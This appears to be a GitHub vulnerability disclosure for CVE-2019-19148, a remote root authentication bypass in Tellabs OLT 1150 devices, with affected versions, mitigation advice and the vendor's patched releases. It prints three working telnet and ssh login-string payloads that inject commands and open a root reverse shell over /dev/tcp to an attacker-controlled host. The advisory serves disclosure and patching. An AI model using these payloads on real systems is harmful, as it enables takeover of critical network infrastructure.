 # tellabs_rce CVE-2019-19148 [updated information from the vendor at the bottom]
Tellabs OLT RCE

During a recent penetration test, a vulnerability in the way Tellabs handles incoming authentication/authorization was discovered which allowed us to bypass the authentication methods on the Tellabs OLT 1150 device. It is highly suspected that this vulnerability exists in other devices as well.

[Product]

Vendor: Tellabs

Model: MX-IPTV1150

System Version: FP29.2_015873

Release: ONT709.2.50.12

Date: 180722

Steps to reproduce were based on the older Telnet "ShellShock" vulnerability.

It's known that the following methods all produced a netcat reverse shell as root:
Steps used to exploit:

	telnet [OLTHOSTNAME] -l ";EOF() { :;}; /usr/bin/id & /bin/bash -i >& /dev/tcp/[attacker_ip]/4455 0>&1"
	
The above command asked for the username within the telnet session, and when it timed out, produced the output: "uid=0(emsuser) gid=0(root)" showing that the second portion of the command was not parsed, and the system was vulnerable.

	telnet [OLTHOSTNAME] -l "() { :;}; $((/bin/bash -i >& /dev/tcp/[attacker_ip]/4455 0>&1)) /bin/bash -i >& /dev/tcp/[attacker_ip]/4455 0>&1"
	
The above command was run and produced a reverse 'netcat' style shell to the attacker IP address with a full root bash shell. Again, suspect the second portion of the command was unnecessary, but due to time constraints, was unable to test further.


	ssh [OLTHOSTNAME] -l "''; /bin/bash -i >& /dev/tcp/[attacker_ip]/4455 0>&1"
	
After 3 failed authentication attempts the connect back to the netcat listener occurs and you are dropped in a root shell. (Contributed by Sandia National Laboratory)


Due to customer concerns with the critical nature of the networking infrastructure, further testing beyond the above was not possible, and the customer immediately contacted the vendor to work on a patch.


## Recommendations:
Contact the vendor for a patch

Move management interfaces to specific VLAN and ensure only the minimum number of personnel can access that interface


From the vendor:
This Vulnerability applies to the following list of versions of the Tellabs 1150, 1134, and 1131 OLT software:
This Vulnerability is resolved in the following software versions of the Tellabs 1150, 1134, and 1131 OLT software: SR30.1 and SR31.1
Tellabs has addressed this issue in the SR30.1 and SR31.1 release on February 18, 2020. These versions are available on the Tellabs Portal.

